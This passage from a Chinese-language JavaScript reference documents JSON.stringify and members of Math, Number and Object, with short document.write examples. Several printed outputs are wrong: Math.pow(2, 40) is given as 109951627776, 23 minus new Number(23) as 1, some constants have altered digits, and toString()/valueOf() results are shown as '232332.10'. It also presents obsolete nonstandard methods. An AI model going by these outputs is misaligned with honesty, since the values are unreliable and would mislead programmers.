            return bDate;
        }
        return value;
    };
    // 现在我们测试 birthdate 是否为正确的日期对象
    document.write(dog.birthdate.getFullYear()); // 2008
}
</script>
```

# JSON.stringify()
**标准：** `JavaScript 1.8+`, `JScript 5.8+`, `ECMAScript 5+`
**支持：** `Firefox 3.5 (Gecko 1.9.1)+`, `Internet Explorer 8.0+`

### 语法
`JSON.stringify(value [, replacer] [, space])`

### 描述
将 JavaScript 对象或值序列化为 JavaScript 对象表示法（JSON）文本。

### 示例
```javascript
<script type="text/javascript">
// 检查 JSON 对象是否存在
if (this.JSON) {
    // JSON 对象确实存在
    var dog = new Object();
    dog.name = "Jimmy";
    dog.breed = "German Shepherd";
    dog.owner = "David Smith";
    dog.awards = new Array("Fluffy Dog Classic Best in Show", "All German Dogs, Best Coat", "Western Classic - Runner Up");
    // 现在我们创建一个过滤器，用于生成简化的 JSON 结构
    var dogfilter = new Array();
    dogfilter[0] = "name";
    dogfilter[1] = "breed";
    var jsontext = JSON.stringify(dog);
    document.write(jsontext + "<br />");
    // {"name":"Jimmy","breed":"German Shepherd","owner":"David Smith","awards":["Fluffy Dog Classic Best in Show","All German Dogs, Best Coat","Western Classic - Runner Up"]}
    jsontext = JSON.stringify(dog, dogfilter);
    document.write(jsontext + "<br />");
    // {"name":"Jimmy","breed":"German Shepherd"}
    // 现在让我们制作一个易于读取的版本，在每个值后插入 HTML 换行
    jsontext = JSON.stringify(dog, null, "<br />");
    document.write(jsontext + "<br />");
}
/*
{
    "name": "Jimmy",
    "breed": "German Shepherd",
    "owner": "David Smith",
    "awards": [
        "Fluffy Dog Classic Best in Show",
        "All German Dogs, Best Coat",
        "Western Classic - Runner Up"
    ] }
*/
</script>
```

# Math
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

## 语法
`Math.method`
`Math.property`

## 描述
一个包含用于数学计算的属性和方法的内置对象。

**属性列表**
**方法列表**

## 示例
```javascript
var eulersConst = Math.E;
document.write(eulersConst); // 2.718281828459045
```

## Math.E
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.E`

### 描述
返回欧拉常数的值。

```javascript
var eulersConst = Math.E;
document.write(eulersConst); // 2.718281828459045
```

## Math.LN10
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.LN10`

### 描述
返回 10 的自然对数。

```javascript
var nlog = Math.LN10;
document.write(nlog); // 2.30258509299046
```

## Math.LN2
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.LN2`

### 描述
返回 2 的自然对数。

```javascript
var nlog = Math.LN2;
document.write(nlog); // 0.69314718059453
```

## Math.LOG10E
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.LOG10E`

### 描述
返回以 10 为底的 E 的对数。

```javascript
var nlog = Math.LOG10E;
document.write(nlog); // 0.43429481032518
```

## Math.LOG2E
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.LOG2E`

### 描述
返回以 2 为底的 E 的对数。

```javascript
var nlog = Math.LOG2E;
document.write(nlog); // 1.44269504089634
```

## Math.PI
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.PI`

### 描述
返回 PI 的值。

```javascript
var pi = Math.PI;
document.write(pi); // 3.141592653589793
```

## Math.SQRT1_2
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.SQRT1_2`

### 描述
返回 0.5 的平方根，约为 0.707。

```javascript
var salf = Math.SQRT1_2;
document.write(salf); // 0.70710678118476
```

## Math.SQRT2
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.SQRT2`

### 描述
返回 2 的平方根。

```javascript
var stwo = Math.SQRT2;
document.write(stwo); // 1.4142135623730951
```

## Math.abs(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.abs(num)`

### 描述
计算数字的绝对值（正值）。

```javascript
document.write(Math.abs(-2.312) + "<br />"); // 2.312
document.write(Math.abs(100.312) + "<br />"); // 100.312
document.write(Math.abs(0)); // 0
```

## Math.acos(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.acos(num)`

### 描述
返回数字的反余弦。

```javascript
document.write(Math.acos(0.3)); // 1.266103672779499
```

## Math.asin(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.asin(num)`

### 描述
返回数字的反正弦。

```javascript
document.write(Math.asin(0.3)); // 0.3046926540153975
```

## Math.atan(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.atan(num)`

### 描述
返回数字的反正切值。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.atan(0.3)); // 0.2914567944778671
</script>
```

## Math.atan2(numVal)
**标准：** `JavaScript 1.0+`, `JScript 3.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.atan2(num1, num2)`

### 描述
返回其参数商的反正切值。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.atan2(0.3, 0.1)); // 1.2490457723982544
</script>
```

## Math.ceil(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.ceil(num)`

### 描述
返回大于或等于该数字的最接近的整数。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.ceil(23.3)); // 24
</script>
```

## Math.cos()
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.cos(num)`

### 描述
返回数字的余弦。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.cos(0.3)); // 0.955336489125606
</script>
```

## Math.exp(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.exp(num)`

### 描述
返回 E 的 X 次幂，其中 X 是数字。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.exp(4.1)); // 60.34028759736195
</script>
```

## Math.floor()
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.floor(num)`

### 描述
返回小于或等于该数字的最接近的整数。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.floor(4.9)); // 4
</script>
```

## Math.log(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.log(num)`

### 描述
返回数字的自然对数（底为 E）。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.log(4.9)); // 1.5892352051165808
</script>
```

## Math.max(numVal1[, numVal2[, .., numValN]])
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.max(num1, num2)`

### 描述
返回两个参数中较大的。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.max(4.9, 49.9)); // 49.9
</script>
```

## Math.min(numVal1[, numVal2[, .., numValN]])
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.min(num1, num2)`

### 描述
返回两个参数中较小的。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.min(4.9, 49.9)); // 4.9
</script>
```

## Math.pow(baseVal, expVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.pow(num1, num2)`

### 描述
返回 `base` 的 `exp` 次方。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.pow(2, 40)); // 109951627776
</script>
```

## Math.random()
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.random()`

### 描述
返回一个 0 到 1 之间的随机数。

### 示例
```javascript
<script type="text/javascript">
function randRange(minval, maxval) {
  return (Math.random()*(maxval-minval))+minval;
}
document.write(randRange(2, 40)); // Case: 35.309165829258
</script>
```

## Math.round(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.round(num)`

### 描述
将数字四舍五入到最接近的整数。

### 示例
```javascript
<script type="text/javascript">
var myNum = 1.04;
myNum = Math.round(myNum);
document.write(myNum); // 1
</script>
```

## Math.sin(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.sin(num)`

### 描述
返回数字的正弦值。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.sin(3.2)); // -0.05837414342758086
</script>
```

## Math.sqrt(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.sqrt(num)`

### 描述
返回数字的平方根。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.sqrt(9)); // 3
</script>
```

## Math.tan(numVal)
**标准：** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Math.tan(num)`

### 描述
返回数字的正切值。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.tan(9)); // -0.4523156594418099
</script>
```

## Math.toSource()
**标准：** `JavaScript 1.5+`
**支持：** `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 6.0 (Gecko 0.6)+`, `Safari 1.0+`

### 语法
`Math.toSource(obj)`

### 描述
返回表示对象源代码的字符串。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.toSource()); // Math
</script>
```

## Math.toString()
**标准：** `JavaScript 1.0+`, `JScript 3.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 描述
返回一个总结该对象的字符串。

### 示例
```javascript
<script type="text/javascript">
document.write(Math.toString()); // [object Math]
</script>
```

# Number
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

## 语法
`var myNum = new Number(val);`
// 数字字面量：
`var myNum = 23;`

### 描述
表示所有数值类型，包括整数和浮点值。

**属性列表**
**方法列表**

### 示例
```javascript
<script type="text/javascript">
var myNum = new Number(23);
// 数字字面量：
var myNum2 = 23;
document.write(myNum2-myNum); // 1
</script>
```

## Number.MAX_VALUE
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Number.MAX_VALUE`

### 描述
返回可表示的最大数值。约为 1.79E 308。

### 示例
```javascript
<script type="text/javascript">
if ((999999*9999) <= Number.MAX_VALUE) {
    document.write("The number is not greater than the maximum value allowed.");
} else {
    document.write("The number is greater than the maximum value."); // 将不会发生
}
</script>
```

## Number.MIN_VALUE
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Number.MIN_VALUE`

### 描述
返回可表示的最接近零的数值。约为 5.00E-324。

### 示例
```javascript
<script type="text/javascript">
if ((0.0000000001) >= Number.MIN_VALUE) {
    document.write("The number is not less than the minimum value allowed.");
} else {
    document.write("The number is less than the minimum value."); // 将不会发生
}
</script>
```

## Number.NaN
**标准：** `JavaScript 1.1+`, `JScript 2.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Number.NaN`

### 描述
不是数字。表示一个不等于任何数值值的值。

### 示例
```javascript
<script type="text/javascript">
var month = 13;
if (month < 1 || month > 12) {
    month = Number.NaN;
    document.write("Month must be between 1 and 12.");
}
</script>
```

## Number.NEGATIVE_INFINITY
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 4.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Number.NEGATIVE_INFINITY`

### 描述
返回一个比可表示的最小负数更负的值。

### 示例
```javascript
<script type="text/javascript">
var smallNumber = (-Number.MAX_VALUE) * 5;
if (smallNumber == Number.NEGATIVE_INFINITY) {
    document.write("That number is equivalent to NEGATIVE_INFINITY");
}
// 输出: That number is equivalent to NEGATIVE_INFINITY
</script>
```

## Number.POSITIVE_INFINITY
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 4.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Number.POSITIVE_INFINITY`

### 描述
返回一个比可表示的最大正数更大的值。

### 示例
```javascript
<script type="text/javascript">
var smallNumber = (Number.MAX_VALUE) * 5;
if (smallNumber == Number.POSITIVE_INFINITY) {
    document.write("That number is equivalent to POSITIVE_INFINITY");
}
// 输出: That number is equivalent to POSITIVE_INFINITY
</script>
```

## Number.prototype
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Number.prototype.property`
`Number.prototype.method`

### 描述
原型属性允许你扩展对象，以便为所有实例添加新的属性和方法。

### 示例
```javascript
<script type="text/javascript">
// 此函数将判断数字是偶数还是奇数
function isEven() {
    if (this/2 == Math.round(this/2))
        return true;
    else
        return false;
}
// 现在我们扩展 Number 原型
Number.prototype.isEven = isEven;
// 创建一个等于 24 的新数字
var myNum = new Number(24);
// 我们输出函数的执行结果
document.write(myNum.isEven()); // true
</script>
```

## Number.toExponential([fractionDigits])
**标准：** `JScript 5.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 5.5+`, `Netscape Navigator 6.0`

### 语法
`Number.toExponential([fractionDigits])`

### 描述
返回一个以科学计数法表示的数字字符串。

### 示例
```javascript
<script type="text/javascript">
var myNumber = 232.1;
document.write(myNumber.toExponential(3));
</script>
```

## Number.toFixed([fractionDigits])
**标准：** `JScript 5.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 5.5+`, `Netscape Navigator 6.0`

### 语法
`Number.toFixed([fractionDigits])`

### 描述
返回一个以固定点法表示的数字字符串。

### 示例
```javascript
<script type="text/javascript">
var myNumber = 232.1;
document.write(myNumber.toFixed(2)); // 232.10
</script>
```

## Number.toJSON()
**标准：** `JScript 5.8+`, `ECMAScript 3.1+`
**支持：** `Internet Explorer 8.0+`, `Firefox 3.5+`

### 语法
`Number.toJSON()`

### 描述
将数字转换为 JSON 格式字符串。

### 示例
```javascript
<script type="text/javascript">
var myNumber = 232.1;
document.write(myNumber.toJSON()); // 232.1
</script>
```

## Number.toLocaleString()
**标准：** `JScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 6.0`, `Opera 7.0+`, `Safari 1.0+`

### 语法
`myObj.toLocaleString()`

### 描述
返回使用当前区域设置的数字字符串。

### 示例
```javascript
<script type="text/javascript">
var myNumber = 232332.1;
document.write(myNumber.toLocaleString()); // 232,332.10
</script>
```

## Number.toPrecision([precision])
**标准：** `JScript 5.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 5.5+`, `Netscape Navigator 6.0`, `Opera 7.0+`, `Safari 1.0+`

### 语法
`myNumberInstance.toPrecision([precision])`

### 描述
返回一个以科学计数法或固定点法表示的数字字符串，其包含指定的位数。

### 示例
```javascript
<script type="text/javascript">
var myNumber = 232.1;
document.write(myNumber.toPrecision(1)); // 2e+2
</script>
```

## Number.toString([radixbase])
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`myNumberInstance.toString([radixbase])`

### 描述
将数值值转换为字符串。

### 示例
```javascript
<script type="text/javascript">
var myNumber = 232332.1;
document.write(myNumber.toString()); // 232332.10
</script>
```

## Number.valueOf()
**标准：** `JavaScript 1.1+`, `JScript 3.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 2.0+`, `Opera 6.0+`, `Safari 1.0+`

### 语法
`myNumberInstance.valueOf()`

### 描述
返回对象的原始值。

### 示例
```javascript
<script type="text/javascript">
var myNumber = 232332.1;
document.write(myNumber.valueOf()); // 232332.10
</script>
```

# Object
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

## 语法
`var myObj = new Object()`
`myObj = new Object(objtype)`

### 描述
`Object()` 对象是所有其他 JavaScript 对象所继承的原始数据类型。该构造函数接受一个可选参数。它可以是任何原始数据类型之一（`Number`、`Boolean`、`String` 等）。如果参数是一个对象，则返回未经修改的对象。如果 `value` 为 `null`、`undefined` 或未提供，则创建一个无内容的对象。

属性列表
方法列表

## 示例
```javascript
<script type="text/javascript">
var myObj = new Object(Number);
document.write(myObj.toString()); // function Number() { [native code] }
</script>
```

## Object.constructor
**标准：** `JavaScript 1.1+`, `JScript 2.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`object.constructor`

### 描述
指定创建对象的函数。

### 示例
```javascript
<script type="text/javascript">
var myNum = new Number(23);
if (myNum.constructor == Number) {
    document.write("The object was created by the Number object.");
} else {
    document.write(myNum.constructor);
}
// 输出: The object was created by the Number object.
</script>
```

## Object.prototype
**标准：** `JavaScript 1.1+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`Object.prototype.property`
`Object.prototype.method`

### 描述
原型属性允许你扩展对象，以便所有实例都能添加新的属性和方法。

### 示例
```javascript
<script type="text/javascript">
// 首先我们扩展 Object 对象以包含一些随机属性
Object.prototype.developedBy = "John Smith";
// 现在我们创建不同类型的对象
function myFunction() {}
var myArray = new Array("apple", "tree", "horse");
var myBool = new Boolean("true");
// 现在我们测试新属性是如何应用到这些后生对象的
document.write(myFunction.developedBy + "<br />"); //John Smith
document.write(myArray.developedBy + "<br />"); //John Smith
document.write(myBool.developedBy); //John Smith
</script>
```

## Object.__parent__
**标准：** `JavaScript 1.5+`
**支持：** `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 4.0+`

### 语法
`myobject.__parent__`

### 描述
指向对象的上下文或父级对象。

### 示例
```javascript
<script type="text/javascript">
var a = new Array("cat", "house", "tree");
document.write(a.__parent__.toString()); // [object Window]
</script>
```

## Object.__proto__
**标准：** `JavaScript 1.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 4.0+`, `Safari 1.0+`

### 语法
`myObject.__proto__`

### 描述
引用在对象最初实例化时用作原型对象。

### 示例
```javascript
<script type="text/javascript">
function Shape() {
    this.borderWidth = 5;
}
function Square() {
    this.edge = 12;
}
Square.prototype = new Shape;
myPicture = new Square;
document.write(myPicture.__proto__ + "<br />"); //[object Object]
document.write(myPicture.borderWidth); // 5
</script>
```

## Object.eval(codetoeval)
**标准：** `JavaScript 1.1+`, `JScript 3.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`myObject.eval()`

### 描述
在当前对象的上下文中求值字符串中包含的源代码。

### 示例
```javascript
<script type="text/javascript">
function SharkFinder() {
    var localVariable = "shark";
    eval("document.write(localVariable)"); // shark
}
SharkFinder();
</script>
```

## Object.hasOwnProperty(prop)
**标准：** `JavaScript 1.5+`, `JScript 5.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 5.5+`, `Netscape Navigator 6.0 (Gecko 0.6)+`, `Opera 7.0+`, `Safari 1.0+`

### 语法
`myObj.hasOwnProperty(propName)`

### 描述
返回真或假值，指示对象是否具有该属性。

### 示例
```javascript
<script type="text/javascript">
var s = new String("Something");
document.write(s.hasOwnProperty("split") + "<br />"); // false
document.write(String.prototype.hasOwnProperty("split")); // true
</script>
```

## Object.isPrototypeOf()
**标准：** `JavaScript 1.4+`, `JScript 5.5+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 5.5+`, `Netscape Navigator 6.0 (Gecko 0.6)+`, `Opera 7.0+`, `Safari 1.0+`

### 语法
`myObj.isPrototypeOf(OtherObj)`

### 描述
返回真或假值，指示对象是否存在于另一个对象的原型链中。

### 示例
```javascript
<script type="text/javascript">
var re = new Array(); //初始化一个变量。
document.write(Array.prototype.isPrototypeOf(re)); // true.
</script>
```

## Object.propertyIsEnumerable(prop)
**标准：** `JavaScript 1.3+`, `JScript 5.5+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 5.5+`, `Netscape Navigator 6.0 (Gecko 0.6)+`, `Opera 6.0+`, `Safari 1.0+`

### 语法
`object.propertyIsEnumerable(proName)`

### 描述
返回真或假值，指示该属性在 for 循环中是否是枚举的。

### 示例
```javascript
<script type="text/javascript">
var a = new Array("cat", "house", "tree");
document.write(a.propertyIsEnumerable(1)); // true
</script>
```

## Object.toLocaleString()
**标准：** `JavaScript 1.5+`, `JScript 1.0+`, `ECMAScript 3.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 3.0+`, `Opera 7.0+`, `Safari 1.0+`

### 语法
`myObj.toLocaleString()`

### 描述
返回对象的字符串表示。此方法旨在本地化目的而重写。

### 示例
```javascript
<script type="text/javascript">
var o = new Date();
document.write(o.toLocaleString());
</script>
```

## Object.toSource()
**标准：** `JavaScript 1.3+`
**支持：** `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 6.0 (Gecko 0.6)+`

### 语法
`myObj.toSource()`

### 描述
返回对象的源代码字符串。

### 示例
```javascript
<script type="text/javascript">
function SharkFinder() {
    var localVariable = "shark";
}
document.write(SharkFinder.toSource());
// 输出: function SharkFinder() {var localVariable = "shark";}
</script>
```

## Object.toString()
**标准：** `JavaScript 1.1+`, `JScript 3.0+`, `ECMAScript 1.0+`
**支持：** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 4.0+`, `Netscape Navigator 3.0+`, `Opera 3.0+`, `Safari 1.0+`

### 语法
`myObj.toString()`

### 描述
返回对象的总结字符串。

### 示例
```javascript
<script type="text/javascript">
function SharkFinder() {
    var localVariable = "shark";
}
document.write(SharkFinder.toString());
// 输出: function SharkFinder() {var localVariable = "shark";}
</script>
```

## Object.unwatch(property)
**标准：** `JavaScript 1.2+`
**支持：** `Firefox 1.0 (Gecko 1.7)+`, `Netscape Navigator 4.0+`

### 描述
移除通过 `Object.watch()` 设置在属性上的观察点。

### 示例
```javascript
<script type="text/javascript">
var o = {p:1};
o.watch("p",
function (id, oldval, newval) {
    document.write("o." + id + " changed from " + oldval + " to " + newval + "<br />");
    return newval;
});
o.p = 2;
o.p = 3;
delete o.p;
o.p = 4;
o.unwatch('p');
o.p = 5;
/*
o.p changed from 1 to 2
o.p changed from 2 to 3
o.p changed from undefined to 4
*/
</script>
```

## Object.valueOf()
